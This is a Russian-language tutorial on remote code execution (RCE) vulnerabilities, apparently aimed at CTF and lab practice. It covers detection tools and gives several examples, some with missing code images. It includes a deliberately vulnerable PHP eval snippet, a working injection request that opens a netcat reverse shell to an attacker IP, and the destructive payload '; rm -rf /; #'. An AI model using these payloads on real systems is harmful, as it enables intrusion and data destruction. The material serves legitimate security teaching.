







RCE. Автор: Женин Михаил
RCE (Remote code execution) — означает удаленное выполнение кода, представляет собой тип уязвимости, который позволяет злоумышленнику выполнять произвольный код на удаленном компьютере или сервере. Это может позволить злоумышленнику получить доступ к конфиденциальной информации, изменить или удалить данные или получить контроль над системой.
Уязвимости RCE часто встречаются в программном обеспечении или веб-приложениях, которые позволяют выполнять введенные пользователем данные в виде кода. Например, веб-приложение, позволяющее пользователям загружать и запускать собственные скрипты или подключаемые модули, может быть уязвимо для RCE, если оно не проверяет или не очищает пользовательский ввод. Затем злоумышленник может загрузить и выполнить вредоносный код, потенциально получив доступ к системе или манипулируя ее поведением.
Уязвимости RCE может быть трудно обнаружить и предотвратить, поскольку они часто связаны со сложным взаимодействием между различными частями системы. Для защиты от уязвимостей RCE важно использовать методы безопасного кодирования, проводить регулярные аудиты безопасности и обновлять программное обеспечение и приложения с помощью последних исправлений безопасности.
Существует несколько инструментов, которые могут обнаруживать уязвимости RCE, в том числе:
1. Инструменты статического анализа кода, такие как Fortify Static Code Analyzer, Coverity и Checkmarx, которые могут сканировать исходный код программы и выявлять потенциальные уязвимости RCE.
2. Инструменты динамического анализа, такие как Burp Suite, ZAP и AppScan, которые могут тестировать программу на наличие уязвимостей RCE, моделируя атаки и наблюдая за поведением программы.
3. Инструменты тестирования на проникновение, такие как Metasploit и Core Impact, которые можно использовать для специального тестирования уязвимостей RCE, пытаясь использовать их и проверять их существование.
4. Сканеры сетевой безопасности, такие как Nessus и OpenVAS, которые могут сканировать сеть и выявлять потенциальные уязвимости RCE в системах и приложениях, подключенных к ней.
В дополнение к этим инструментам для обнаружения уязвимостей RCE также можно использовать ручное тестирование и проверку кода. Важно использовать комбинацию этих инструментов и методов, чтобы убедиться, что все потенциальные уязвимости RCE идентифицированы и устранены.
Использование уязвимостей RCE в соревновании CTF может быть сложной задачей, поскольку требует глубокого понимания уязвимостей безопасности, создания полезной нагрузки и других сложных тем.
Шаги по поиску RCE уязвимости:
1. Определите уязвимость, изучив описание проблемы, запустив сканеры уязвимостей или другие инструменты или вручную протестировав приложение или систему.
2. Создайте полезную нагрузку, которая использует уязвимость, предоставив пользовательский ввод, который будет выполняться как код, что позволит вам выполнять произвольный код в системе.
3. Выполните полезную нагрузку, предоставив ее в качестве входных данных для приложения или системы либо через пользовательский интерфейс, либо с помощью инструмента, такого как интерфейс командной строки или сетевой сканер.
4. Убедитесь, что полезная нагрузка выполнена успешно, проверив ожидаемые результаты, такие как новая учетная запись пользователя с правами администратора, измененные или удаленные данные или доступ к конфиденциальной информации.
Пример 1. Эксплуатация RCE с использованием инъекции кода
На сайте присутствует такой код:
<?PHP
$name=$_GET["param"];
?>
<html>
<h1>Yousend: </h1>
<p><?PHP @eval ("echo " . $name . ";")?><p>
</html>
Видно, что реализован он через функцию eval, а переданные пользователем данные попадают в нее без валидации — это позволит передавать PHP код, и он выполнится.
Запускаем обратный шелл на атакуемом узле, который будет подключаться к атакующему.
Вначале в Kali Linux откроем порт на прослушивание:

Далее подключаемся к порту 6666. Для этого передадим такой запрос:
handler.PHP?param=text;passthru('nc 192.168.56.103 6666 -e /bin/sh');
В результате получим подключение к узлу атакующего со стороны сервера:

Шелл будет действовать даже после закрытия страницы. Далее можно закрепиться в системе, поднять свои права или использовать более продвинутый сценарий эксплуатации.
Пример 2. Эксплуатация RCE Shellshock
Одним из примеров уязвимости RCE является уязвимость Shellshock, затрагивающая оболочку Bash, которая обычно используется во многих операционных системах. Эта уязвимость позволяла злоумышленнику выполнять произвольные команды в системе, отправляя специально созданные запросы в оболочку Bash.
Вот пример того, как злоумышленник может использовать уязвимость Shellshock для выполнения произвольного кода в целевой системе:

В этом примере злоумышленник использует команду curl для отправки вредоносного запроса в оболочку Bash в целевой системе. Запрос содержит код, который при выполнении позволяет злоумышленнику прочитать файл /etc/passwd в системе.
Пример 3. Эксплуатация RCE в настольных приложениях

В этом коде программа считывает ввод из аргументов командной строки и выполняет его как команду с помощью функции system. Это создает уязвимость RCE, поскольку пользователь может ввести любую команду, которую он хочет, и она будет выполнена программой, потенциально позволяя пользователю выполнять произвольный код в системе.
Например, если злоумышленник вводит в качестве аргумента следующую команду:

Программа выполнит команду "; rm -rf /; #", которая удалит все файлы и каталоги в системе. Это может привести к серьезным повреждениям и поставить под угрозу безопасность системы.
Пример 4. Эксплуатация RCE в виртуальной машине Metasploitable
Допустим, есть страница, которая позволяет получить имя хоста по адресу или наоборот.

При этом есть подозрение, что страница подвержена RCE, так как в основе приложения лежит выполнение команды ОС. Для проверки попробуем отправить несколько команд, разделив их символом «;»:

Видим, что последовательно выполняются две команды — значит, инъекция команд возможна. Можно получить на удаленном хосте шелл с правами пользователя www-data.